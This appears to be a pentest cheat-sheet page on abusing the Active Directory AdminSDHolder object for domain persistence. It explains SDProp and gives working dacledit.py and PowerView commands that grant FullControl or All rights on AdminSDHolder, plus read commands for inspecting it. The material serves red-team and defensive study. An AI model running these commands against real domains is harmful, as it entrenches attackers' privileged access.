 # AdminSDHolder

### The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

### If you modify the permissions of AdminSDHolder, that permission template will be pushed out to all protected accounts automatically by SDProp (in an hour). E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

### Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL. 

## Linux

    dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

### Inspection

    dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'

## Windows

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All

### Inspection

    Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs
